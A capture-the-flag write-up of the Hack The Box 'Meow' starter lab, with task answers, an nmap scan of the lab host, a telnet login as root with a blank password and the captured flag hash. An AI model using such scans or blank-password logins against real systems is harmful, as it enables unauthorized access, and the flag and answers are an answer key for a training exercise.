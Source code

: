 ```yaml
---
title: "[HTB] Meow"
author: "Wook Lee"
date: "2024-06-17"
---
```


> My journey begins here. 🐌

---

##### TASK 1

What does the acronym VM stand for? </br>

```
Virtual Machine
```

</br>
 
##### TASK 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

```
Terminal
```

</br>

##### TASK 3

What service do we use to form our VPN connection into HTB labs?

```
openvpn
```

</br>

##### TASK 4

What tool do we use to test our connection to the target with an ICMP echo request?

```
ping
```

</br>

##### TASK 5

What is the name of the most common tool for finding open ports on a target?

```
nmap
```

</br>

##### TASK 6

What service do we identify on port23/tcp during our scans?

```
telnet
```

```zsh
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
└──╼ [★]$ nmap -sC -sV 10.129.67.74 -p 23
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-17 05:20 BST
Nmap scan report for 10.129.67.74
Host is up (0.0098s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.48 seconds
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
└──╼ [★]$
```

</br>

##### TASK 7

What username is able to log into target over telnet with a blank password?

```
root
```

```shell
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
└──╼ [★]$ telnet 10.129.67.74
Trying 10.129.67.74...
Connected to 10.129.67.74.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 17 Jun 2024 04:26:46 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.67.74
  IPv6 address for eth0: dead:beef::250:56ff:feb0:4ed1

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```

</br>

##### SUBMIT FLAG

Submit root flag

```
b40abdfe23665f766f9c61ecba8a4c19
```

```shell
root@Meow:~# ls
flag.txt snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~#
```

![meow_clear](./htb_meow.png)
